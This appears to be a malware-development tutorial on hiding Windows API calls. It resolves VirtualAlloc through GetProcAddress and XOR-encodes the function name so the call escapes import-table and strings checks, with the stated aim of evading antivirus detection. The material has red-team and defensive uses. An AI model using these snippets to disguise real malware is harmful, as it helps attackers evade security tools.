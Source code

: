 # 05 - evasion: function call obfuscation

In this example we will study function call obfuscation. So what is this? Why malware developers and red teamers need to learn it?    

Let's consider our `hack.exe` simple malware. Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -w
```

![img](./img/2024-05-03_10-31.png)    

And the run this command (checking IAT):    

```bash
objdump -x -D hack.exe | less
```

![img](./img/2024-05-03_10-33.png)    

and as you can see our program is uses `KERNEL32.dll` and import all this functions:   

```bash
CreateThread
...
...
VirtualAlloc
VirtualProtect
...
```

and some of them are used in our code:     

```cpp
my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

So let’s create a global variable called `VirtualAlloc`, but it has to be a pointer `pVirtualAlloc` this variable will store the address to `VirtualAlloc`:     

```cpp
LPVOID (WINAPI * pVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
```

And now we need to get this address via `GetProcAddress`, and we need to change the call `VirtualAlloc` to `pVirtualAlloc`:     

```cpp
HMODULE kernel = GetModuleHandle("kernel32.dll");
pVirtualAlloc = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(kernel, (LPCSTR)"VirtualAlloc");
payload_mem = pVirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

Then let's go to compile it. And see again import address table:   

```bash
objdump -x -D hack2.exe | less
```

![img](./img/2024-05-03_10-38.png)    

So no `VirtualAlloc` in import address table. Looks good. But, there is a caveat. When we try to extract all the strings from the our binary we will see that `VirtualAlloc` string is still there. Let's do it. run:    

```bash
stings -n 8 hack2.exe
```

![img](./img/2024-05-03_10-40.png)    

as you can see it is here. The reason is that we are using the stream in cleartext when we are calling `GetProcAddress`.     

So what we can do about it?     
The way is we can remove that. We can used XOR function for encrypt/decrypt, we used before, so let's do that. Firstly, add XOR function to our `hack2.c` malware source code:    

```cpp
char secretKey[] = "secret";

// encryption / decryption XOR function
void deXOR(char *buffer, size_t bufferLength, char *key, size_t keyLength) {
  int keyIndex = 0;
  for (int i = 0; i < bufferLength; i++) {
    if (keyIndex == keyLength - 1) keyIndex = 0;
    buffer[i] = buffer[i] ^ key[keyIndex];
    keyIndex++;
  }
}
```

For that we will need encryption key and some string. And let's say string as `cVirtualAlloc` and modify our code:    

```cpp
unsigned char cVirtualAlloc[] = { 0x25, 0xc, 0x11, 0x6, 0x10, 0x15, 0x1f, 0x24, 0xf, 0x1e, 0xa, 0x17 };
//...
pVirtualAlloc = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress(kernel, (LPCSTR)cVirtualAlloc);
```

python script to XOR encrypt our function name:     

```bash
python3 xor.py
```

![img](./img/2024-05-03_10-46.png)     

Finally, compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -w
```

![img](./img/2024-05-03_10-47.png)     

And run `strings` again:    

```bash
strings -n 8 hack2.exe
```

![img](./img/2024-05-03_10-49.png)    

and as you can see no `VirtualAlloc` in strings check. This is how you can actually obfuscate any function in your code. It can be `VirtualProtect` or `RtlMoveMemory`, etc.    

Checking correctness:    

```powershell
.\hack2.exe
```

![img](./img/2024-05-03_10-50.png)    

As we can see everything is worked as expected.    

Other functions can be obfuscated to reduce the number of AV engines that detect our malware and for full bypass static analysis. For better result we can combine payload encryption with random key and obfuscate functions with another keys etc.     

